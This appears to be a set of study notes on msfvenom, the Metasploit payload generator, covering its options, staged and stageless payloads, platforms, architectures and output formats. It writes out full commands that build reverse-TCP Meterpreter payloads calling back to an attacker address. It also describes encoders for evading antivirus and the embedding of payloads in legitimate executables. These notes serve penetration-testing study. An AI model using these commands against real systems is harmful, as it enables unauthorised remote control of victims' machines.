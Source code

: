 # msfvenom-basics

# msfvenom payload syntax 
msfveno >> Metasploit standalone payload generator tool.

# Types: payloads, encoders,nops, platforms, archs, encrypt, formats.
Encoders: Encoders are the various algorithms and encoding schemes that Metasploit can use to re-encode the payloads. In this way, we can obfuscate the intent of the payload to evade AV and bypass security measures in place, no detection. 
List encoders >> msfvenom -l encoders

# Msfvenom common options
-p (payload) Specifies the payload to use. Example: -p windows/meterpreter/reverse_tcp
-e (encoder): Specifies an encoder to use for the payload. Example: -e x86/shikata_ga_nai
-f (format): Specifies the format of the output payload. Example: -f exe (Windows executable), -f elf (Linux executable), -f raw (raw binary), -f js (JavaScript), -f apk (Android), etc.
-a (architecture): Specifies the architecture for the payload. Example: -a x86 (32-bit), -a x64 (64-bit),
-s (space): Specifies the maximum size of the payload. Example: -s 300
--platform: Specifies the platform for the payload (e.g., Windows, Linux). Example: --platform windows
-x (template): Uses a specified executable as a template to embed the payload into. Example: -x /path/to/template.exe

# Payloads
Payloads: malicious scripts that an attacker uses to interact with a target machine in order to compromise it. 
The syntax of the payload caught my attention for further reading. 
# msfvenom -p <PAYLOAD> LHOST=<attacker_IP> LPORT=<attacker_PORT> -f <FORMAT> > <OUTPUT_FILE>

# Two major types of Payloads  
# Staged: They are commonly identified by a forward slash (/) in their name (e.g., windows/meterpreter/reverse_tcp). In the form of stager and stage. 
Stager >> Initial part of the payload, which sets up a connection between the target and the attacker. 
This stager is usually small and simple, designed to fit within tight constraints and establish a communication channel.(establishes the connection and then activates the payload that will do the main work).

Stage >> The larger part of the payload, which contains the main functionality (e.g., Meterpreter). Once the stager sets up the connection, it downloads and executes the stage from the attacker's machine (does the transaction).
Syntax: msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -f exe > /path/to/output.exe

# Stageless: The use of _ instead of the second / in the payload name such as windows/meterpreter_reverse_tcp. Payloads contain the entire payload in a single, self-contained package. There is no separate stager and stage; everything needed to execute the payload is included in the initial file.
Syntax: msfvenom -p windows/meterpreter_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -f exe > /path/to/output.exe

# Additionals
# Platforms
In msfvenom a payload defines the actions that will be performed on the target machine once the exploit is successful. For this reason msfvenom has platform options: a platform is loosely an operating system(mac, windows, linux etc) or scripting language(eg php, ruby etc) with a few exceptions, such as netware. When building our custom payload, we must build it specifically for the target operating system. We can have a customized payload using the --platform <targetplatform> syntax to designate our target platform.

# Architectures
The architecture of a payload specifies the type of CPU it is designed to run on. Common architectures include:
x86: 32-bit Intel/AMD processors.
x64: 64-bit Intel/AMD processors.
armle: ARM little-endian processors.
mips: MIPS processors.
cmd: Command-line interface architectures, typically for scripting.
# Example: Windows x86 (32-bit) Payload 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -a x86 -f exe > /home/user/Desktop/windows_x86_payload.exe

# Formats
The format specifies the type of file that will be generated by msfvenom. 
Different formats are suitable for different target environments. 
When we build our custom payload, we will use the -f switch and designate the format.
example: Windows executable.
# Example: msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > /home/user/Desktop/payload.exe
  elf: Linux executable.
  raw: Raw binary format.
  macho: macOS executable.
  apk: Android package.
  python: Python script. 
# Example : msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f raw > /home/user/Desktop/payload.py
java: Java bytecode.
powershell: PowerShell script.
asp: ASP script.
jsp: JSP script.

